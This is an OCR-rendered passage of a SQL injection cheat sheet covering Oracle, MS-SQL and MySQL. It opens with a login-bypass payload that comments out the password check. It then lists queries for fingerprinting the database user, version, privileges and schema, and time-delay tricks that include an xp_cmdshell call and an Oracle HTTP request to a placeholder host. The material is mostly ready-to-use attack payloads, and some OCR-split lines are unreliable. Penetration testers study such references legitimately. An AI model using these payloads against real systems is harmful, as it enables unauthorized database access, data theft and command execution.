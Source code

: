 ```SELECT * FROM users WHERE username = ‘admin’--’ AND password = ‘foo’```
- **MySQL:** ```ASCII(‘A’)``` is equal to ```65```
```SUBSTRING(‘ABCDE’,2,3)``` is equal to ```BCD```

2. **Requirement:** ***Retrieve current database user***
**Oracle:** ```Select Sys.login_user from dual SELECT user FROM dual SYS_CONTEXT(‘USERENV’, ‘SESSION_USER’)```
**MS-SQL:** ```select suser_sname()```
**MySQL:** ```SELECT user()```

3. Requirement: Cause a time delay
**Oracle:** ```Utl_Http.request(‘http://madeupserver.com’)```
**MS-SQL:** ```waitfor delay ‘0:0:10’ exec master..xp_cmdshell ‘ping localhost’```
**MySQL:** ```sleep(100)```

4. Requirement: Retrieve database version string
**Oracle:** ```select banner from v$version```
**MS-SQL:** ```select @@version```
**MySQL:** ```select @@version```

5. Requirement: Retrieve current database
**Oracle:** ```SELECT SYS_CONTEXT(‘USERENV’,’DB_NAME’) FROM dual```
**MS-SQL:** ```SELECT db_name()```
***The server name can be retrieved using:***
```SELECT @@servername```
**MySQL:** ```SELECT database()```

6. Requirement: Retrieve current user’s privilege
**Oracle:** ```SELECT privilege FROM session_privs```
**MS-SQL:** ```SELECT grantee, table_name, privilege_type FROM INFORMATION_SCHEMA.TABLE_PRIVILEGES```
**MySQL:** ```SELECT * FROM information_schema.user_privileges WHERE grantee = ‘[user]’``` where ```[user] ```is determined
from the output of ```SELECT user()```

7. Requirement: Show all tables and columns in a single column of results
**Oracle:** ```Select table_name||’ ```
```‘||column_name from all_tab_columns```
**MS-SQL:** ```SELECT table_name+’```
```‘+column_name from information_schema.columns```
**MySQL:** ```SELECT CONCAT(table_name,```
```‘,column_name) from information_schema.columns```

8. Requirement: Show user objects
**Oracle:** ```SELECT object_name, object_type FROM user_objects```
**MS-SQL:** ```SELECT name FROM sysobjects```
**MySQL:** ```SELECT table_name FROM information_schema.tables```
***(or trigger_name from ```information_schema.triggers```, etc.)***

9. Requirement: Show user tables
**Oracle:** ```SELECT object_name, object_type FROM user_objects```
```WHERE object_type=’TABLE’```
***Or to show all tables to which the user has access:***
```SELECT table_name FROM all_tables```
**MS-SQL:** ```SELECT name FROM sysobjects WHERE xtype=’U’```
**MySQL:** ```SELECT table_name FROM information_schema.```
```tables where table_type=’BASE TABLE’ and```
```table_schema!=’mysql’```

10. Requirement: Show column names for table foo
**Oracle:** ```SELECT column_name, name FROM user_tab_columns```
```WHERE table_name = ‘FOO’```
***Use the ```ALL_tab_columns``` table if the target data is not owned by the current application user.***
**MS-SQL:** ```SELECT column_name FROM information_schema.columns WHERE table_name=’foo’```
**MySQL:** ```SELECT column_name FROM information_schema.columns WHERE table_name=’foo’```
```